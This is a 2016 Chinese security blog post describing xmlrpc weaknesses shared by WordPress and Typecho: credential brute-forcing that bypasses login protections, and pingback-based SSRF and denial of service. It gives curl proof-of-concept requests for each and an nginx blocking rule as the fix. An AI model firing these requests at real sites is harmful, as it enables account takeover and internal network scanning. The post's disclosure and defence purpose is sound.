 ```yaml
---
id: 733
layout: post
title: 'WordPress和Typecho xmlrpc漏洞'
date: 2016-04-20 21:12:00
author: virusdefender
tags: 
---
```


一般大家都关注WordPress，毕竟用户量巨大，而国内的Typecho作为轻量级的博客系统就关注的人并不多。Typecho有很多借鉴WordPress的，包括兼容的xmlrpc接口，而WordPress的这个接口爆出过多个漏洞，Typecho无一幸免。

## 账号密码爆破

WordPress的相关漏洞可以参考 https://blog.cloudflare.com/a-look-at-the-new-wordpress-brute-force-amplification-attack/ 这个漏洞在Typecho上要危害稍微小一点，因为WordPress是有破解保护的，而这个接口可以绕过这个保护，Typecho并没有这个保护，只要暴露了后台地址就然并卵了。但是我采用了后台登录的两步验证，这个接口接口确实绕过了两步验证。

POC

```shell
curl "https://example.com/action/xmlrpc" -d '<?xml version="1.0" encoding="UTF-8"?><methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>{USERNAME}</value></param><param><value>{PASSWORD}</value></param></params></methodCall>'
```

## Ping back造成的dos和SSRF

WordPress会尝试去访问Ping back的url，可能会造成dos问题。参考http://www.acunetix.com/blog/articles/wordpress-pingback-vulnerability/

同时，没有对url进行校验，可以用来扫描内网。

WordPress后来修补了SSRF的问题，后来被绕过，前几天刚刚重新修复，见 http://xlab.baidu.com/wordpress/。但是Typecho没有任何过滤。

POC

```shell
curl "https://example.com/action/xmlrpc" -d '<methodCall><methodName>pingback.ping</methodName><params><param><value><string>http://victim.com</string></value></param><param><value><string>https://example.com/index.php/archives/732/</string></value></param></params></methodCall>'
```

看到了xml，还顺手测试了一把xxe，不过暂时没有发现这个问题。解析xml时候的本地拒绝服务是存在的，Inutio XML-RPC Library的问题，有两个CVE。

## 解决方案

nginx屏蔽此url

```
if ($uri ~ ^/index.php/action/xmlrpc) {
    return 403;
}
```